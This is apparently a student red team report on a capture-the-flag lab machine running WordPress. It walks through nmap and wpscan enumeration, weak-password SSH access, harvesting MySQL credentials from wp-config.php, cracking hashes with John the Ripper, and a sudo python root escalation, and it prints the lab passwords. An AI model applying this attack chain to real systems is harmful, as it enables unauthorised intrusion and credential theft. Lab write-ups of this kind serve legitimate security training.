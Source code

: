 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Command: $ nmap -sV 192.168.1.110
  
 ![](images/NmapScan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP Open ssh
  - Port 80/tcp open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp Open netbios-ssn
  - Poert 445/tcp Open netbios-ssn
  

The following vulnerabilities were identified on each target:
- Target 1
  - List of Critical Vulnerabilities
Following user were identified by running wpscan command

Command: wpscan --url http://192.168.1.110/wordpress --enumerate u

Two users can be seen:

![](images/user.png)

With a simple brut force user Michael password was cracked: Password was "michael"

Command:ssh michael@192.168.1.110

password: michael

![](images/Password.png)

 `flag1.txt`: 
 
   -Flag 1 was found in the following director:
    Command: cd /var/www/html
           : ls -al
           : nano services.html
           
![](images/Flag.png)
![](images/Flag1.png)

`flag2.txt`:

    -Flage 2 was found in following directories:
     
     Command: cd /var/www/
            
            : ls -al

![](images/flag2.png)


### Exploitation

Mysql server login credentials was listed in wp-config.php file from where steven password was cracked using john ripper and his account was used then to execute python to escalte root preveliage. Following steps were involved

Step 1:
-SSH into Michael account

command: ssh micheal@192.168.1.110

-Login credentials using MYSQL server, were found in wp-config.php file within var/www/html/wordpress directory.

-Flag 3 was found in the wp_posts table in the wordpress database.


Command: mysql -u root -p

password: R@v3nSecurity
  
  mysql> use wordpress;
        
        show table;
        
        SELECT * FROM wp_users;
        
        SELECT * FROM wp_posts;

![](images/WP-TABLE.png)
![](images/Flag3.png)


Step 2:
Password was cracke using john ripper uing following command
command: john wp_hashes.txt
user steven password is cracked: pink84

Step 3:
Once the password hash was cracked, then SSH into Steven to execute python to escalte root privilege

Command: ssh steven@192.168.1.110

password: pink84
        
        :sudo -l
        
        :sudo python -c 'import pty;pty.spawn ('/bin/bash");'
        
        :cd /root
        
        :ls -al
        
        :cat falg4.txt
        
![](images/flag4.png)



